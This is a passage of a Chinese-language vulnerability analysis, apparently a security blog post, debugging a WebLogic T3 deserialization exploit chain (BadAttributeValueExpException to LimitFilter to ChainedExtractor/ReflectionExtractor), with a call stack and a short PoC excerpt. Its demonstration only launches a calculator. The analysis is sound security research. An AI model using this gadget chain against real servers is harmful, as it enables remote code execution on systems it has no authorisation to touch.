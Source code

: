弹出计算器，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xfQicBawtghV7Vh65MmMsvXU3rCEY4ZhDiaSa1ua4oXplicQrKx7lNxxt4A/640?wx_fmt=png)

### **（三）调试**

先上调用栈，

```
extract:121, ReflectionExtractor (com.tangosol.util.extractor)
extract:105, ChainedExtractor (com.tangosol.util.extractor)
toString:599, LimitFilter (com.tangosol.util.filter)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1158, ObjectStreamClass (java.io)
readSerialData:2173, ObjectInputStream (java.io)
readOrdinaryObject:2064, ObjectInputStream (java.io)
readObject0:1568, ObjectInputStream (java.io)
readObject:428, ObjectInputStream (java.io)
readObject:73, InboundMsgAbbrev (weblogic.rjvm)
read:45, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:325, MsgAbbrevJVMConnection (weblogic.rjvm)
init:219, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:557, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:666, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:397, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:993, SocketMuxer (weblogic.socket)
readReadySocket:929, SocketMuxer (weblogic.socket)
process:599, NIOSocketMuxer (weblogic.socket)
processSockets:563, NIOSocketMuxer (weblogic.socket)
run:30, SocketReaderRequest (weblogic.socket)
execute:43, SocketReaderRequest (weblogic.socket)
execute:147, ExecuteThread (weblogic.kernel)
run:119, ExecuteThread (weblogic.kernel)

```

PoC 打过去，断下，

一开始先是 BadAttributeValueExpException 对象的 readObject，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xf2U9l2oB0eEuyjXGxuGjNBxIbb3EPb1jNu6Tf6AxJ7Q7uNGV69tL1ag/640?wx_fmt=png)

这里的 val 对应 PoC 中这几行代码，

```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException, limitFilter);

```
